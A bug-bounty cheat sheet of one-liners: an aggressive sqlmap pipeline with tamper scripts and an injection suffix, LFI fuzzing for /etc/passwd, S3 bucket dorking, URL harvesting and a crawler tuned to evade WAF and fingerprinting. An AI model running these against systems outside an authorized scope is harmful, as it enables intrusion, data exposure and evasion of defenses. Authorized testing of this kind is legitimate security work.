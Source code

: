 # Bugbounty
## 2024 Oneliners found online

### Check SQL
waybackurls 'URL TARGET'| grep '='| httpx --silent --status-code| awk '{print $1}'| xargs -I{} sqlmap -u {} -v 3 --random-agent --tamper "between,randomcase,space2comment" --level 5 --risk 3 --batch --threads 5 --crawl 2 --suffix=') and 1=1-- -'

### Screenshot
cat hosts | gowitness scan file -f - --write-csv  
***

## 2025 Oneliners found online 

## Find Local File Inclusion
findomain -t example.com -q | waybackurls |gf lfi | qsreplace FUZZ | while read url ; do ffuf -u $url -mr “root:x” -w ~/wordlist/LFI.txt ; done
***
---

## FIND S3

### Google Dorking
(site:*.s3.amazonaws.com OR site:*.s3-external-1.amazonaws.com OR site:*.s3.dualstack.us-east-1.amazonaws.com OR site:*.s3.ap-south-1.amazonaws.com) "target.com"


Tool: dorks_eye
Link: https://github.com/BullsEye0/dorks-eye
- I forked the original. sudo-awk
***

### Using subfinder + httpx

subfinder -d target.com -all -silent | httpx-toolkit -sc -title -td | grep "Amazon S3"
***

### Find using JS files

katana -u https://site.com/ -d 5 -jc | grep '\.js$' | tee alljs.txt
cat alljs.txt | xargs -I {} curl -s {} | grep -oE 'http[s]?://[^"]*\.s3\.amazonaws\.com[^" ]*' | sort -u

***
### Find using java2s3

subfinder -d target.com -all -silent | httpx-toolkit -o file.txt
cat file.txt | grep -oP '(?<=https?:\/\/).*'
python java2s3.py input.txt target.com output.txt
cat output3.txt | grep -E "S3 Buckets: \['[^]]+"
cat output.txt | grep -oP 'https?://[a-zA-Z0-9.-]*s3(\.dualstack)?\.ap-[a-z0-9-]+\.amazonaws\.com/[^\s"<>]+' | sort -u
cat output3.txt | grep -oP '([a-zA-Z0-9.-]+\.s3(\.dualstack)?\.[a-z0-9-]+\.amazonaws\.com)' | sort -u

***

#### Brute-Forcing S3 Bucket with LazyS3
You can also use this LazyS3 tool — it's basically a brute force tool for AWS S3 buckets using different permutations. you can run the following command by specifying the target domain

***

### Website you can use to find S3 Buckets: 

https://osint.sh/buckets/
grayhatwarefare

Chrome plugin 
https://chromewebstore.google.com/detail/s3bucketlist/anngjobjhcbancaaogmlcffohpmcniki?hl=en

(site:*.s3.amazonaws.com OR site:*.s3-external-1.amazonaws.com OR site:*.s3.dualstack.us-east-1.amazonaws.com OR site:*.s3.ap-south-1.amazonaws.com) "target.com"
***
---

## Get all urls fast

waymore -i hackerone.com -mode U -oU hackerone_urls.txt

cat subs.txt | gau | uro | tee -a all_urls

katana -u target.com | uro | tee -a urls.katana.out

cat targets.txt | gau | sort | uro | tee -a targets.gau

credits to lostsec
***

## Spider the target fast

katana -u http://[TARGET URL]/ -proxy http://[LOCALIP]:[BURPPROXYPORT]/ -hl -jc --no-sandbox -c 1 -p 1 -rd 3 -rl 5 -tlsi
What it Does:

🔸-u: Target URL:
The web application or interface you want to crawl.

🔸-proxy: Burp Proxy: 
Sends all discovered requests through Burp for interception and analysis.

🔸-hl: Headless mode: 
Hooks internal headless browser calls to handle HTTP requests and responses directly within the browser context. 
This provides two key benefits:
◾Full browser-like fingerprinting (TLS/user-agent), avoiding automated detection.
◾Enhanced discovery by analyzing both raw HTTP responses and JavaScript-rendered content.

🔸-jc: JavaScript crawling. 
Extracts endpoints from within JS files and runtime execution, improving endpoint visibility.

🔸--no-sandbox: Sandbox bypass. 
Bypasses browser sandbox restrictions—useful in restricted or containerized environments.

🔸-c 1: Concurrency = 1. 
Runs one request at a time to stay stealthy and mimic legitimate traffic.

🔸-p 1: Parallelism = 1. 
Prevents simultaneous thread execution, further reducing detection risk.

🔸-rd 3: Recursion depth = 3. 
Crawls up to 3 levels deep to uncover nested endpoints without overwhelming the server.

🔸-rl 5: Rate limit = 5 req/sec. 
Keeps request speed low enough to evade rate-based WAF triggers.

🔸-tlsi: TLS fingerprint evasion. 
Emulates real browser TLS behavior to bypass basic fingerprinting-based defenses.

credits to blackhat ethical Hacking
---

